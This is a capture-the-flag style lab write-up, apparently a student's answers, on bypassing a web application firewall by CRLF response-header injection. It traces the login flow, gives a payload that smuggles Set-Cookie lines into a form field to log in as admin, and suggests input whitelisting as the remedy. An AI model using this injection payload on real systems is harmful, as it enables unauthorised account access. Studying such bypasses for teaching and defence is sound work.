

# Web App Firewall Bypass

## Answers

1. Explain the security problem
    - it is possible to inject a response header. 
        - 1. Post request is sent and WAF forwards the reqeust to the Login-Server
            - Our post request is modified and contains the some data, which will be in the response of the login server to the WAF  
            - WAF 
2. Explain your attack (exploit, screenshot, hacking journal)
    - see below
3. Explain mitigation (remedy)
    - WAF may not forward a request with unknown, possibly dangerous data to the login server. 
        - The login post/request should only allow: username and password as input in the body (ok in this example: lang and url would also have to be allowed) -> whitelist allowed input. 
        - either a request with unknown data should be blocked or sanitized (stripped of unknown input)

## Steps

**1+2 Check what happens upon login**
- 1. GET "/" Initially I see a login page (WAF has redirected me to the transparently to login server)
    - Cookie in request: `MOD_BUT=jUyf9vc5DMFLZgp4knWPW/krwnM8v8Fx`
- 2. POST "/login/Login.action" Post Login request with "hacker10" -> success and 302 redirect to "/secure"
    - Response set/replaces Cookie `MOD_BUT=Xj2YoOc+EKqNYUegh+LZHOoxKnPxQHgH;` 
- 3. GET "/secure" -> 302 redirect to same page "/secure" (cookie set before is now - of course - part of the request)
    - request doesn't get to the backend but now the WAF knows that this is a valid request
- 4. GET "/secure" -> returns the html I see now
    - this time, the WAF lets this request pass

**3+4 Exploit**

Exploit: 
- Post request "/login/Login.action" intercepted with Burp and the following line added to the request and sent. 
   `username=notRelevant&url=%2Fsecure&lang=EN;%0aSet-Cookie:%20LOGON=ok;%0aSet-Cookie:%20MOD_BUT_Username=admin&password=asdf`
- Success: Login as admin was possible
    - FLAG: 25ae1215-5726-4f76-ae94-7a45d56a19d8

